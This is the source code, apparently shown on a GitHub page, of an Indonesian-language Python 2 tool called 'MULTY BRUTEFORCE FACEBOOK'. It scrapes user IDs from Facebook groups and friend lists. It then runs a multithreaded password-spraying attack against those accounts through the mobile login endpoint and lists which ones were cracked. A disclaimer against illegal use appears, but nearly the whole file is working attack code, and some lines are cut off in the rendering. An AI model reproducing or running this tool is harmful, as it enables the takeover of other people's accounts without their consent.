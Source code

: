 # mbf
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 147 148 149 150 151 152 153 154 155 156 157 158 159 160 161 162 163 164 165 166 167 168 169 170 171 172 173 174 175 176 177 178 179 180 181 182 183 184 185 186 187 188 189 190 191 192 193 194 195 196 197 198 199 200 201 202 203 204 205 206 207 208 209 210 211 212 213 214 215 216 217 218 219 220 221 222 223 224 225 226 227 228 229 230 231 232 233 234 235 236 237 238 239 240 241 242 243 244 245 246 247 248 249 250 251 252 253 254 255 256 257 258 259 260 261 262 263 264 265 266 267 268 269 270 271 272 273 274 275 276 277 278 279 280 281 282 283 284 285 286 287 288 289 290 291 292 293 294 295 296 297 298 299 300 301 302 303 304 305 306 307 308 309 310 311 312 313 314 315 316 317 318 319 320 321 322 323 324 325 326 327 328 329 330 331 332 333 334 335 336 337 338 339 340 341 342 343 344 345 346 347 348 349 350 351 352 353 354 355 356 357 Raw Blame History from __future__ import print_function import platform,os def tampil (x): w = { 'm' : 31, 'h' : 32 , 'k' : 33 , 'b' : 34 , 'p' : 35 , 'c' : 36} for i in w: x = x.replace( '\r %s ' % i, '\033[ %s ;1m' % w[i]) x += '\033[0m' x = x.replace( '\r0' , '\033[0m' ) print (x) if platform.python_version().split( '.' )[ 0 ] != '2' : tampil( '\rm[!] kamu menggunakan python versi %s silahkan menggunakan versi 2.x.x' % v().split( ' ' )[ 0 ] os.sys.exit() import cookielib,re,urllib2,urllib,threading try: import mechanize except ImportError : tampil( '\rm[!]SepertiNya Module \rcmechanize\rm belum di install...' ) os.sys.exit() def keluar (): simpan() tampil( '\rm[!]Keluar' ) os.sys.exit() log = 0 id_bteman = [] id_bgroup = [] fid_bteman = [] fid_bgroup = [] br = mechanize.Browser() br.set_handle_robots( False ) br.set_handle_equiv( True) br.set_handle_referer( True) br.set_cookiejar(cookielib.LWPCookieJar()) br.set_handle_redirect( True) br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time = 1 ) br.addheaders = [( 'User-Agent' , 'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Versi def bacaData(): global fid_bgroup,fid_bteman try: fid_bgroup = open(os.sys.path[ 0 ] + '/MBFbgroup.txt' , 'r' ).readlines() except : pass try: fid_bteman = open(os.sys.path[ 0 ] + '/MBFbteman.txt' , 'r' ).readlines() except : pass def inputD (x,v = 0 ): while 1 : try : a = raw_input ( '\x1b[32;1m %s \x1b[31;1m:\x1b[33;1m' % x) except : tampil( '\n\rm[!]Batal' ) keluar() if v: if a.upper() in v: break else: tampil( '\rm[!]Masukan Opsinya Bro...' ) continue else: if len(a) == 0 : tampil( '\rm[!]Masukan dengan benar' ) continue else: break return a def inputM (x,d): while 1 : try : i = int(inputD(x)) except : tampil( '\rm[!]Pilihan tidak ada' ) continue if i in d: break else: tampil( '\rm[!]Pilihan tidak ada' ) return i def simpan (): if len (id_bgroup) != 0 : tampil( '\rh[*]Menyimpan hasil dari group' ) try : open(os.sys.path[ 0 ] + '/MBFbgroup.txt' , 'w' ).write( '\n' .join(id_bgroup)) tampil( '\rh[!]Berhasil meyimpan \rcMBFbgroup.txt' ) except : tampil( '\rm[!]Gagal meyimpan' ) if len (id_bteman) != 0 : tampil( '\rh[*]Menyimpan hasil daftar Teman...' ) try : open(os.sys.path[ 0 ] + '/MBFbteman.txt' , 'w' ).write( '\n' .join(id_bteman)) tampil( '\rh[!]Berhasil meyimpan \rcMBFbgteman.txt' ) except : tampil( '\rm[!]Gagal meyimpan' ) def buka(d): tampil( '\rh[*]Membuka \rp' + d) try: x = br.open(d) br._factory.is_html = True x = x.read() except : tampil( '\rm[!]Gagal membuka \rp' + d) keluar() if '&lt;link rel="redirect" href="' in x: return buka(br.find_link().url) else: return x def login (): global log us = inputD( '[?]Email/HP' ) pa = inputD( '[?]Kata Sandi' ) tampil( '\rh[*]Sedang Login....' ) buka( 'https://m.facebook.com' ) br.select_form( nr = 0 ) br.form[ 'email' ] = us br.form[ 'pass' ] = pa br.submit() url = br.geturl() if 'save-device' in url or 'm_sess' in url: tampil( '\rh[*]Login Berhasil' ) buka( 'https://mobile.facebook.com/home.php' ) nama = br.find_link( url_regex = 'logout.php' ).text nama = re.findall( r ' \( (. * a ? ) \) ' ,nama)[ 0 ] tampil( '\rh[*]Selamat datang \rk %s \n\rh[*]Semoga ini adalah hari keberuntungan mu....' % nam log = 1 elif 'checkpoint' in url: tampil( '\rm[!]Akun kena checkpoint\n\rk[!]Coba Login dengan opera mini' ) keluar() else: tampil( '\rm[!]Login Gagal' ) def saring_id_teman (r): for i in re.findall( r '/friends/hovercard/mbasic/ \? uid= (. *? ) &amp;' ,r): id_bteman.append(i) tampil( '\rc==>\rb %s \rm' % i) def saring_id_group1 (d): for i in re.findall( r '&lt;h3>&lt;a href="/ (. *? ) fref=pb' ,d): if i.find( 'profile.php' ) == - 1 : a = i.replace( '?' , '' ) else: a = i.replace( 'profile.php?id=' , '' ).replace( '&amp;amp;' , '' ) if a not in id_bgroup: tampil( '\rk==>\rc %s ' % a) id_bgroup.append(a) def saring_id_group0 (): global id_group while 1 : id_group = inputD( '[?]Id Group' ) tampil( '\rh[*]Mengecek Group....' ) a = buka( 'https://m.facebook.com/browse/group/members/?id=' + id_group + '&amp;amp;start=0&amp;amp;lis nama = ' ' .join(re.findall( r '&lt;title> (. *? ) &lt;/title>' ,a)[ 0 ].split()[ 1 :]) try : next = br.find_link( url_regex = '/browse/group/members/' ).url break except : tampil( '\rm[!]Id yang anda masukan salah' ) continue tampil( '\rh[*]Mengambil Id dari group \rc %s ' % nama) saring_id_group1(a) return next def idgroup(): if log != 1 : tampil( '\rh[*]Login dulu bos...' ) login() if log == 0 : keluar() next = saring_id_group0() while 1 : saring_id_group1(buka( next)) try : next = br.find_link( url_regex = '/browse/group/members/' ).url except : tampil( '\rm[!]Hanya Bisa Mengambil \rh %d id' % len (id_bgroup)) break simpan() i = inputD( '[?]Langsung Crack (y/t)' ,[ 'Y' , 'T' ]) if i.upper() == 'Y' : return crack(id_bgroup) else: return menu() def idteman(): if log != 1 : tampil( '\rh[*]Login dulu bos...' ) login() if log == 0 : keluar() saring_id_teman(buka( 'https://m.facebook.com/friends/center/friends/?fb_ref=fbm&amp;ref_component=mbasi try: next = br.find_link( url_regex = 'friends_center_main' ).url except : if len (id_teman) != 0 : tampil( '\rm[!]Hanya dapat mengambil \rp %d id' % len (id_bteman)) else: tampil( '\rm[!]Batal' ) keluar() while 1 : saring_id_teman(buka( next)) try : next = br.find_link( url_regex = 'friends_center_main' ).url except : tampil( '\rm[!]Hanya dapat mengambil \rp %d id' % len (id_bteman)) break simpan() i = inputD( '[?]Langsung wae ah yuu(y/t)' ,[ 'Y' , 'T' ]) if i.upper() == 'Y' : return crack(id_bteman) else: return menu() class mt ( threading . Thread ): def __init__ (self,i,p): threading.Thread. __init__ ( self) self.id = i self.a = 3 self.p = p def update (self): return self.a, self.id def run(self): try: data = urllib2.urlopen(urllib2.Request( url = 'https://m.facebook.com/login.php' , data = urllib.urle except KeyboardInterrupt: os.sys.exit() except : self.a = 8 os.sys.exit() if 'm_sess' in data.url or 'save-device' in data.url: self.a = 1 elif 'checkpoint' in data.url: self.a = 2 else: self.a = 0 def crack (d): i = inputD( '[?]Pake Passwordlist/Manual (p/m)' ,[ 'P' , 'M' ]) if i.upper() == 'P' : while 1 : dir = inputD( '[?]Masukan alamat file' ) try: D = open( dir, 'r' ).readlines() except : tampil( '\rm[!]Gagal membuka \rk %s ' % dir) continue break tampil( '\rh[*]Memulai crack dengan \rk %d password' % len(D)) for i in D: i = i.replace( '\n' , '' ) if len(i) != 0 : crack0(d,i, 0 ) i = inputD( '[?]Tidak Puas dengan Hasil,Mau coba lagi (y/t)' ,[ 'Y' , 'T' ]) if i.upper() == 'Y' : return crack(d) else: return menu() else: return crack0(d,inputD( '[?]Sandi' ), 1 ) def crack0 (data,sandi,p): tampil( '\rh[*]MengCrack \rk %d Akun \rhdengan sandi \rm[\rk %s \rm]' % ( len(data),sandi)) print ( '\033[32;1m[*]Cracking \033[31;1m[\033[36;1m0%\033[31;1m]\033[0m' , end= '' ) os.sys.stdout.flush() akun_jml = [] akun_sukses = [] akun_cekpoint = [] akun_error = [] akun_gagal = [] jml0,jml1 = 0 , 0 th = [] for i in data: i = i.replace( ' ' , '' ) if len (i) != 0 :th.append(mt(i,sandi)) for i in th: jml1 += 1 i.daemon = True try :i.start() except KeyboardInterrupt: exit() while 1 : try : for i in th: a = i.update() if a[ 0 ] != 3 and a[ 1 ] not in akun_jml: jml0 += 1 if a[ 0 ] == 2 : akun_cekpoint.append(a[ 1 ]) elif a[ 0 ] == 1 : akun_sukses.append(a[ 1 ]) elif a[ 0 ] == 0 : akun_gagal.append(a[ 1 ]) elif a[ 0 ] == 8 : akun_error.append(a[ 1 ]) print ( '\r\033[32;1m[*]Cracking \033[31;1m[\033[36;1m %0.2f%s \033[ os.sys.stdout.flush() akun_jml.append(a[ 1 ]) except KeyboardInterrupt: os.sys.exit() try : if threading.activeCount() == 1 : break except KeyboardInterrupt: keluar() print ( '\r\033[32;1m[*]Cracking \033[31;1m[\033[36;1m100%\033[31;1m]\033[0m     ' ) if len (akun_sukses) != 0 : tampil( '\rh[*]Daftar akun sukses' ) for i in akun_sukses: tampil( '\rh==>\rk %s \rm[\rp %s \rm]' % (i,sandi)) tampil( '\rh[*]Jumlah akun berhasil\rp %d ' % len(akun_sukses)) tampil( '\rm[*]Jumlah akun gagal\rp %d ' % len(akun_gagal)) tampil( '\rk[*]Jumlah akun cekpoint\rp %d ' % len(akun_cekpoint)) tampil( '\rc[*]Jumlah akun error\rp %d ' % len(akun_error)) if p: i = inputD( '[?]Tidak Puas dengan Hasil,Mau coba lagi (y/t)' ,[ 'Y' , 'T' ]) if i.upper() == 'Y' : return crack(data) else: return menu() else: return 0 def lanjutT(): global fid_bteman if len (fid_bteman) != 0 : i = inputD( '[?]Riset Hasil Id Teman/lanjutkan (r/l)' ,[ 'R' , 'L' ]) if i.upper() == 'L' : return crack(fid_bteman) else: os.remove(os.sys.path[ 0 ] + '/MBFbteman.txt' ) fid_bteman = [] return 0 def lanjutG(): global fid_bgroup if len (fid_bgroup) != 0 : i = inputD( '[?]Riset Hasil Id Group/lanjutkan (r/l)' ,[ 'R' , 'L' ]) if i.upper() == 'L' : return crack(fid_bgroup) else: os.remove(os.sys.path[ 0 ] + '/MBFbgroup.txt' ) fid_bgroup = [] return 0 def menu(): tampil( '''\rh .-.-.. /+/++// /+/++// \rk*   *\rh /+/++// \ /  |/__// {\rmX\rh}v{\rmX\rh}|\rcPRX\rh|==========. [']  /'|'\           \\ /  \  \           ' \_  \_ \_    \rk*\rhDragonFly coly \rk########################################################### #             \rb*MULTY BRUTEFORCE FACEBOOK*\rk                 # # \rhBY\rp                                             panda07\rk# # \rhGroup FB\rp  https://m.facebook.com/groups/164201767529837 \rk# # \rhGitHub\rp                      https://github.com/zack007 \rk# #       \rmDo Not Use This Tool For IllegaL Purpose          \rk# ###########################################################''') tampil( '''\rk %s \n\rc1 \rhAmbil id dari group\n\rc2 \rhAmbil id dari daftar teman\n\rc3 \rmKELUAR\n i = inputM( '[?]PILIH' ,[ 1 , 2 , 3 ]) if i == 1 : lanjutG() idgroup() elif i == 2 : lanjutT() idteman() elif i == 3 : keluar() bacaData() menu()
